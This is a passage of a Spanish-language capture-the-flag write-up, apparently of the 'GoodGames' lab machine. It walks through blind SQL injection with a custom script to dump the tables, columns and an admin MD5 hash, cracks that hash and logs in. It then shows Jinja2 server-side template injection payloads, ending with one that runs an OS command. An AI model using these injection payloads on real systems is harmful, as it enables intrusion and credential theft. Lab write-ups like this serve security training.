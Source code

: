 Vamos a sacar las tablas de la base de datos "main".

```plaintext
❯ python3 sqli.py -p "select table_name from information_schema.tables where table_schema='main'" -l -r 20 -i 5
[├] Brute Forcing: Probando en el resultado 2 con el caracter b en la posicion 10
[ ] Output: blog blog_comments user
```

Vamos a sacar las columnas de la tabla "user".

```plaintext
❯ python3 sqli.py -p "select column_name from information_schema.columns where table_schema='main' and table_name='user'" -l -r 10 -i 5
[▇] Brute Forcing: Probando en el resultado 4 con el caracter 4 en la posicion 2
[o] Output: email id name password
```

Vamos a sacar el contenido de la columna "name" y "password" ya que son los datos que nos piden en el login.

```plaintext
python3 sqli.py -p "select concat(name,':',password) from main.user" -l -r 45 -i 5
[......\.] Brute Forcing: Probando en el resultado 0 con el caracter l en la posicion 43
[......\.] Output: admin:2b22337f218b2d82dfc3b6f77e7cb8ec
```

Parece ser que la contraseña esté hasheada, vamos a ver que algoritmo de encriptación fue utilizado para poder desencriptarlo. Yo voy a utilizar [hash identifier](https://hashes.com/es/tools/hash_identifier).

![Vemos el tipo de algoritmo utilizado]({{ 'assets/img/commons/goodgames/hash.png' | relative_url }}){: .center-image }
_Vemos el tipo de algoritmo utilizado_

Se utilizó "MD5" para hashear la contraseña, es bastante fácil romper este hash, yo voy a utilizar [crackstation](https://crackstation.net/) para hacerlo.

![Crackeamos el hash]({{ 'assets/img/commons/goodgames/crack_hash.png' | relative_url }}){: .center-image }
_Crackeamos el hash_

Vamos a usar esta contraseña con el usuario encontrado anteriormente para autenticarnos contra el panel de login, quedarían así las credenciales "admin:superadministrator".

![Nos logueamos en el panel de flask]({{ 'assets/img/commons/goodgames/flask_login.png' | relative_url }}){: .center-image }
_Nos logueamos en el panel de flask_

Si vemos el panel de login veíamos la palabra "flask" en grande, además, si veis las tecnologías utilizadas en la página veréis que se está utilizando "flask", esto nos puede indicar que puede ir encaminado en un SSTI (Server Side Template Injection).

Vamos a probar el siguiente payload "\{\{7*7\}\}" en todos los lados para ver si encontramos el SSTI.

![Descubrimos un SSTI]({{ 'assets/img/commons/goodgames/ssti.png' | relative_url }}){: .center-image }
_Descubrimos un SSTI_

Hemos descubierto un SSTI en el apartado de nombre en nuestro usuario, vamos a ver si podemos ejecutar comandos, voy a usar el siguiente payload "\{\{ self._TemplateReference__context.cycler.\_\_init__.\_\_globals__.os.popen('id').read() \}\}".
